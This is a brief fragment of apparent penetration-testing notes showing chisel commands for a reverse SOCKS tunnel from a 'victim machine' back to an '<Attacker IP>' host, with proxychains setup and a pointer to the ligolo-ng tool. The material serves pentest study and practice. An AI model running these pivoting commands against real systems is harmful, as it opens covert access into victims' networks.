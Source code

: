 with chisel

```
# On the attacker machine:
./chisel server -p 6969 --socks5 --reverse

# On the victim machine:
./chisel client <Attacker IP>:6969 R:socks

# then add the 127.0.0.1:<given port> to your /etc/proxychains
# and use proxychains
```

#### Super tool !
https://github.com/nicocha30/ligolo-ng